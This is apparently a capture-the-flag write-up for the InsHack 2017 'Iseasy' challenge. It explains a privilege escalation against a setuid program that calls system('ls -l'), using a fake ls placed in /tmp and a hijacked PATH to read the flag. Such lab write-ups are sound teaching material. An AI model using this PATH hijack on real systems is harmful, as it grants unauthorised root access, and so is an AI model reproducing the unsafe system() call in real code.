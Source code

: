```yaml
---
title: "Iseasy | InsHack 2017"
categories: ["pwn"]
tags: ["privilege escalation"]
Points: 75
Solves: 127
---
```


A simple privilege escalation, taking advantage of the `PATH` environment variable.

## Overview
The challenge source code is just this little snippet:
```c
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?


## Solution
Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable. That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

The solution is something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```bash
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```bash
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` we get a shell!
```bash
export PATH=/tmp/a
./vuln
```
